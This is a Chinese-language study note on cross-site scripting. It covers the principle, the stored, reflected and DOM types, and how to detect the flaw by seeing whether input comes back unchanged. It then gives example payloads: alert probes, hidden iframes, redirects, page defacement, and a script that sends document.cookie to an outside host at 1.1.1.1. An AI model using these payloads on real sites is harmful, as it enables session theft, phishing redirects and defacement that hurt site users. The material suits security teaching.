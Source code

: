 # XSS(跨站脚本)

> 与SQL注入攻击类似，SQL注入攻击以SQL语句作为用户输入，从而达到查询/修改、删除数据的目的，而在xss攻击中，通过插入恶意脚本，实现对用户浏览器的控制。**漏洞存在于服务器端，攻击对象为WEB客户端。**【[原理](https://www.zhuyingda.com/blog/article.html?id=2)：为了使用户体验更好等因素，有部分代码会在浏览器中执行】

**使用场景：**

- 直接嵌入html：<script>alert('XSS');</script>
- 元素标签事件：<body onload=alert('XSS')>
- 图片元素：<img src="javascript:alert('XSS');">
- 其他标签：<iframe>,<div>,and<link>
- DOM对象，篡改页面内容

**可实现攻击方式：**

1. 盗取cookie（若浏览器正在登录状态）
2. 重定向到特点站点（可做钓鱼页面）

**攻击参与方：** 攻击者，被攻击者，漏洞站点，第三方站点（攻击目标/攻击参与站）

**漏洞形成根源：** 服务器对用户提交数据过滤不严，提交给服务器的脚本被直接返回给其他客户端执行；脚本在客户端执行恶意操作



**XSS漏洞类型详解：** 

*特点：* 注入代码可能是一个片段或完整的语句，客户端提交到服务器，服务器**原封不动**地返回客户端；探测时，通过爬网，观察变量。每个变量都进行测试，只要提交的数据或代码被**原封不动**地返回，则有可能存在XSS漏洞。

1. 存储型（持久型）
2. 反射型（非持久型）【盗取cookie，重定向，安装键盘记录器等】
3. DOM型（本地执行）





#### 示例：

##### 反射性注入：

*测试是否存在XSS* ，依据：是否原封不动地将输入返回【可能在页面，也有可能在返回的源码】

![XSS1](img/XSS/XSS1.png)

如图可知提交的数据全部完整的返回了

```
注入 <a href="http://192.168.1.1">click</a>       创建一条超链接
```

![XSS](img/XSS/XSS2.png)

可以创建自己的超链接，在别人网站实施挂马，重定向等操作

**注入脚本** 

```
<script>alert('XSS')</script>     #可以用于检测是否存在XSS漏洞 
```

![XSS3](img/XSS/XSS3.png)

```
<a href="onclick=alert('XSS')">type</a>   #使用burpsuite发送，需要进行URL编码
```

![XSS4](img/XSS/XSS4.png)

```
<img  src="http://1.1.1.1/a.jpg" onerror=alert('XSS')>  #当请求找不到图片，触发
```



**漏洞利用** 

1. 重定向：`<script>window.location="http://www.sina.com"</script>`

   ​               `<iframe src="http://1.1.1.1" height="0" width="0"></iframe>`

   

2. 窃取浏览当前页面的用户的cookie信息：`<script>new image().src="http://1.1.1.1/c.php?output="+document.cookie;"</script>  `

3. 篡改页面：`<script>document.body.innerHtml="<div style=visibility:visible;><h1>THIS WEBSITE IS UNDER ATTACK</h1></div>"</script>`

4. 集成复杂代码：将代码集成为一个html文件，然后伪造钓鱼网站链接，结合社工，进行攻击

5. 使目标服务器到黑客控制的肉鸡服务器上拿一个功能性的脚本文件，在交由客户端去执行。

























